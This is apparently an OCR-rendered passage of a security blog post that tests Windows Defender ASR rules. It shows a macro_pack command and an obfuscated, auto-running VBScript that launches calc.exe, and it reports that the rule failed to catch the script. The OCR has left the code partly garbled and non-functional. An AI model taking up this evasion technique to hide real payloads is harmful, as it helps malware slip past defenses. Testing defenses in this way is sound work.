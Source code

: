 * * *

#### 2. Obfuscated VBScript

I then used `macro_pack` to generate an **obfuscated** version:

```
echo "C:\windows\system32\cmd.exe /C calc.exe" | macro_pack.py -t CMD -o -G playcmd_obf.vbs
```

Resulting obfuscated VBScript:

```
Const Insrhjpopn = 2
Const yngyvpmeek = 1
Const crkokypojl = 0
Sub AutoOpen()
    gnmqjrajzrjauenuy rteozwvfivqg("433a5c7769") & rteozwvfivqg("6e646177735c7375")
End Sub
Sub gnmqjrajzrjauenuy(urorvuncg)
    5c636d642e6578652021432063616c632e657865")
    CreateObject(rteozwvfivqq("57536372") & rteozwvfivqg("6970742e5368656c6c")).Run urorvuncg, 0
End Sub
Private Function rteozwvfivqq(ByVal hejvgenlwbbd)
    Dim nxcplribsaub
    For nxcplribsaub = 1 To Len(hejvgenlwbbd) Step 2
        rteozwvfivga = rteozwvfivga & Chr(CInt("&H" & Mid(hejvgenlwbbd, nxcplribsaub, 2)))
    Next
End Function
AutoOpen
```

Clearly, this script is **heavily obfuscated**.

* * *

#### Results

Obviously, anyone could see that the second script is obfuscated, however when I executes it, ASR was not triggered.

This ASR rules was tested by other people without success either. It seems the feature is not mature, see [https://www.darkoperator.com/blog/2017/11/8/windows-defender-exploit-guardasr-obfuscated-script-rule.](https://www.darkoperator.com/blog/2017/11/8/windows-defender-exploit-guardasr-obfuscated-script-rule.) The author tested basic public encoder for VBscript and Powershell and they did not trigger the rule.

* * *

### XI. Block Untrusted and Unsigned Processes that Run from USB

> ***ASR Rule ID:*** `b2b3f03d-6a65-4f7b-a9c7-1c7ef74a9ba4`  
> **Official Description:**

> *“With this rule, admins can prevent unsigned or untrusted executable files from running from USB removable drives, including SD cards. Blocked file types include:*
